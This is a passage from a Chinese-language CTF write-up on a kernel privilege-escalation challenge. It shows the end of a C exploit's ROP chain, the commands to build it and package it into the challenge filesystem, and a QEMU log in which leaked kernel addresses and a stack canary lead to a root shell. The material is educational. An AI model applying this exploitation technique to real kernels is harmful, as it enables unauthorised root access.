 ```c
    rop[i++] = user_rflags;
    rop[i++] = user_sp;
    rop[i++] = user_ss;
    write(fd, rop, 0x800);
    core_copy_func(fd, 0xffffffffffff0100);

    return 0;
}
```

按规则编译后，将可执行文件放到`core/tmp/`中，打包后将文件系统映像放到主目录；

```
gcc -static -masm=intel -g exploit.c -o exploit
mv exploit core/tmp/
cd core/
./gen_cpio.sh core.cpio
mv core.cpio ..

```

启动脚本`start.sh`，执行弹shell；

```
$ ./start.sh 
warning: TCG doesn't support requested feature: CPUID.01H:ECX.vmx [bit 5]
[    0.020165] Spectre V2 : Spectre mitigation: LFENCE not serializing, switching to generic retpoline
udhcpc: started, v1.26.2
udhcpc: sending discover
udhcpc: sending select for 10.0.2.15
udhcpc: lease of 10.0.2.15 obtained, lease time 86400
/ $ id
uid=1000(chal) gid=1000(chal) groups=1000(chal)
/ $ ./tmp/exploit 
[+] status has been saved.
[+] commit_creds addr => 0xffffffffa7a9c8e0
[+] vmlinux_base addr => 0xffffffffa7a00000
[+] prepare_kernel_cred addr => 0xffffffffa7a9cce0
[+] vmlinux_base addr => 0xffffffffa7a00000
[+] already exist.
[*] set off to 64
[*] read to buf.
[+] canary => 0x16a92f79086e900
[*] copy from user with size: -65280
/ # id
uid=0(root) gid=0(root)
/ # 

```

#### 调试

在root下获取.text基地址；


[vmlinux & bzImage 的关系]: https://unix.stackexchange.com/questions/5518/what-is-the-difference-between-the-following-kernel-makefile-terms-vmlinux-vml	"vmlinux &amp; bzImage 的关系"
[ extract-vmlinux ]: https://github.com/torvalds/linux/blob/master/scripts/extract-vmlinux "extract-vmlinux"